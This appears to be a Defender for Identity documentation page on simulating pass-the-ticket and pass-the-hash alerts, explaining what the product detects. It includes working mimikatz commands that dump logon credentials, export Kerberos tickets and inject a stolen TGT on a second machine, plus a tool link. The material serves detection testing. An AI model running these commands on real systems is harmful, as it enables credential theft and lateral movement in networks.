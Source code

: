 ## Suspected identity theft (pass-the-ticket) & (pass-the-hash)

For details about this alert, see [Suspected identity theft (pass-the-ticket) (external ID 2018)](lateral-movement-alerts.md#suspected-identity-theft-pass-the-ticket-external-id-2018) and [Suspected identity theft (pass-the-hash) (external ID 2017)](lateral-movement-alerts.md#suspected-identity-theft-pass-the-hash-external-id-2017).

Pass-the-Ticket or Pass-The-Hash is a lateral movement technique in which attackers steal a Kerberos ticket or user's NTLM hash from one computer and use it to gain access to another computer by reusing the stolen ticket or user's NTLM hash.
  
This detection is often misunderstood. If you perform a Pass-The-Ticket from one security context to another security context on the same machine, you won't generate a Defender for Identity alert. This activity can only be seen with an EDR on a managed machine.

What Defender for Identity can detect, without any client agent and even if the activity is seen from an unmanaged machine (without EPP or EDR), is if one Kerberos ticket (TGT) was issued to a user on a specific machine (Name, IP) and the same ticket is seen coming from another machine (Name, IP). Then Defender for Identity can trigger a Suspected identity theft.

In this detection, a Kerberos ticket is seen used on two (or more) different computers.  

On *machine 1* (ADMIN-PC), where a domain user is in used (logon as Task, Service, RDP, Interactive), from a command line run as local admin:

```cmd
mimikatz # privilege::debug 
mimikatz # sekurlsa::logonpasswords  
mimikatz # sekurlsa::tickets /export 
```

You should rename the Nuck's TGT file (or whatever) to nuck.kirbi

On *machine 2* (VICTIM-PC), from a command line run as local admin:

```cmd
mimikatz # privilege::debug  
mimikatz # kerberos::ptt nuck.kirbi
mimikatz # Quit 
Klist 
```

From the result, check if the TGT for nuck is loaded.

Perform an LDAP bind (digest), for example with LDP.exe. The stolen TGT from *machine 1* will be presented to a domain controller to issue a TGS for the LDAP query.

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  
  
Detail in the alert:  
